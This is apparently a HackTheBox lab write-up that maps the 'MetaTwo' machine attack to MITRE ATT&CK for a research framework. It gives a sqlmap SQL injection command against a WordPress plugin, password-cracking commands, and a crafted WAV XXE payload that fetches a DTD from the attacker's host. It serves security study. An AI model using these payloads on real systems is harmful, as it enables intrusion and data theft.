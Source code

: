 # Cyber4ML_Framework application in "MetaTwo" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.17|10.10.11.186|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [MetaTwo Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/MetaTwo/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-0739/CWE-89 |
| Execution | Command and Scripting Interpreter | Unix Shell | (1) | CVE-2022-0739/CWE-89 |
| Credential Access | Brute Force | Password Cracking | (2) | - |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Reconnaissance | Active Scanning | Vulnerability Scanning | (3) | - |
| Initial Access | Exploit Public-Facing Application | - | (4) | CVE-2021-29447/CWE-611 |
| Execution | Exploitation for Client Execution | Unix Shell | (4) | CVE-2021-29447/CWE-611 |
| Credential Access | Credentials from Password Stores | Password Managers | - | - |
| Privilege Escalation | Valid Accounts | Local Accounts | - | - |

#### Commands/Scripts
- (1)
```
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data="action=bookingpress_front_get_category_services&_wpnonce=35b4fc273d&category_id=33&total_service=1" -p "total_service" --dbs
```
- (2)
```
john hashes --wordlist=rockyou.txt
```

- (3)
```
wpscan --url http://metapress.htb
```

- (4)
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.17:4444/xxe_attack.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

#### Alternative Commands/Scripts
- (2)
```
hashcat -m 400 -a 0 hashes rockyou.txt
```


## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/MetaTwo/attack_capture.pcapng)

## Log Analysis
